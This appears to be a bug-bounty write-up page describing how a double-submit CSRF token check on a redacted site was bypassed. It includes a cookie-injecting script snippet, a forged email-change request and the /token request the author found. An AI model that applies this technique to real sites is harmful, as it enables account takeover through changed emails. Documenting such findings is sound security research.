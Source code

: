 

* Notice -> csrf-token=asu  both same in Header and in Cookie

* Response he got is ->
            
            {"changingEmailCompleted":true}

* It's indicate that email is changed Successfully. It's mean  we can manipulate the **csrf-token** in the **header** to anything as long as the value is same as the **csrf-token** in the **Cookie**

* Now, Author's next step is to add new Cookie because he can't access cookies, so he create new cookie using script ->

    ```<script>document.cookie="csrf-token=asu";</script>```

* But, when he made a request, he got response as **"Possible CSRF attack detected"**

* Why that happened?, he Noticed that there is **two** times **csrf-token** appeared in **Cookie Header**

```
POST /user/changeEmail HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 84
Sec-Fetch-Mode: cors
csrf-token: asu
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/json; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,eu;q=0.6
Cookie: csrf-token=asu; JSESSIONID=_zo6sV5qYkxhYwSCULJ4KRzOqP3G_-xVma2rKVPo; csrf-token=0b84028f-35de-4bd6-bf72-a0a776a7b3f2;

{"email":"pwn@1337.com"}

```


* He checked that Target is using "AngularJS", and there is no csrf-token value stored in the HTML Code, and the value of the Cookie changes every time.

* **always changing every request** This means that there are times when the server sends a **new cookie** to the browser

* So, he tried to find out when that moment happened

* He found out -> /token endpoint as background request for that purpose

``` 
Request ->

POST /token HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 84
Sec-Fetch-Mode: cors
csrf-token: 0b84028f-35de-4bd6-bf72-a0a776a7b3f2
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/json; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,eu;q=0.6
```
